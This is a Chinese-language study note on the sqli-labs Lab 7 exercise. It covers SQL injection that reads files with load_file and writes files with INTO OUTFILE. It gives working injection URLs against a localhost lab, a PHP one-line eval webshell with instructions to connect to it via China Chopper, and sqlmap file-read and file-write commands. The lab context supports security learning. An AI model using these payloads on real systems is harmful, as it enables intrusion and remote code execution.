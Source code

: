 # Lab 7 GET - Dump into outfile - String （导出文件GET字符型注入）

## 以下是博客学习内容

+ 概要：把查询结果导出到文件中，常用语句为 `select "<?php @eval($_POST['giantbranch']);?>" into outfile "XXX\test.php" `， 当然要获取网站在系统中的具体路径（绝对路径） -- 怎么获取？根据系统和数据库猜测（那就是经验咯）；当然不是啦，SQL中有提供函数which有很大可能让我们获取到这个路径，看吧，用lab3的环境 -- 

@@datadir -- 读取数据库的路径

@@basedir -- 安装MYSQL路径

![7_1](.\images\7_1.png)

+ ps：在这里关于导出sql查询结果到文件的时候需要注意设置sql里面的secure-file-priv属性，若报以下错误可以参考`坑.md`

+ [ ] <?php @eval($_POST['giantbranch']);?>" -- 这句话不知道是干啥用的诶？？！？！先空着，学习后面的先

+ 话说这次lab就是为了让我们知道有导出文件这一操作吗 -- 看一波视频先

## 以下是视频学习内容

+ 概要：mysql可以对文件进行读写，但是要权限足够 -- 用户权限最好要有root & secure_file_priy指定目录,以下命令查看secure_file_priv指定目录情况

```mysql
show global variables like "secure_file_priv"
```

完了以后参考`坑.md`即可配置secure_file_priv相关信息

+ 读文件

```mysql
mysql命令行中
select load_file("C:\\sqlread_test.txt") -- 注意要用\\而不是\
```

```
http://localhost/sqli-labs-master/Less-1/?id=0' union select 1,2,load_file("C:\\sqlread_test.txt") --+
```

+ 写文件

'<?php phpinfo();?>' -- 会返回当前的网站配置信息

```
http://localhost/sqli-labs-master/Less-7/?id=0')) union select 1,2,'<?php phpinfo();?>' into outfile 'C:\\phpStudy\\PHPTutorial\\WWW\\sqli\\Less-7\\1.php' --+
```

打开`1.php`发现

![7_2](.\images\7_2.png)

+ 写入webshell

  + 一句话木马 -- <?php @eval($_POST['x']);?>
  + @屏蔽错误信息
  + 把输入的'x'都当做命令
  + 使用中国菜刀可以连接，连接了以后就可以为所欲为了，x相当于连接密码

+ sqlmap测试

  + sqlmap -hh 查看详细的帮助信息

    ```
    sqlmap -u "http://localhost/sqli/Less-7/?id=1" --file-read "G:\\flag.txt" -- 读取网站上的文件
    sqlmap -u "" --file-write local_file --file-dest destination_filedir_in_web -- 把本地的某个文件上传到网站上某个位置
    ```

    